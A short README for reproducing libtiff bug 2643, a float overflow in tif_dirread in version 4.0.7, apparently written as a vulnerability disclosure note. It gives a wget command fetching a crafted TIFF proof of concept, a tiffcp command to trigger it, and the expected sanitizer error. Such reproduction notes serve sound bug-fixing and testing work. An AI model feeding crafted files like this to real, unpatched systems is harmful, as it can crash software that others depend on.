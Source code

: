 # POC for libtiff Bug 2643 - Float Value Overflow

## POC URL
https://github.com/asarubbo/poc/blob/master/00114-libtiff-outside-float-tif_dirread

## Compilation Environment
- libtiff version 4.0.7
- Linux PC
- Compiled with `-fsanitize=undefined` flag

## Run Command
```
wget https://github.com/asarubbo/poc/raw/master/00114-libtiff-outside-float-tif_dirread -O poc.tif
tiffcp -i poc.tif /tmp/foo
```

## Expected Output
When running the command with an undefined behavior sanitizer, you should see an error message similar to:
```
tif_dirread.c:2409:12: runtime error: value -4.779e+161 is outside the range of representable values of type 'float'
```

This demonstrates the floating point overflow vulnerability in libtiff's directory reading functionality before the fix was implemented.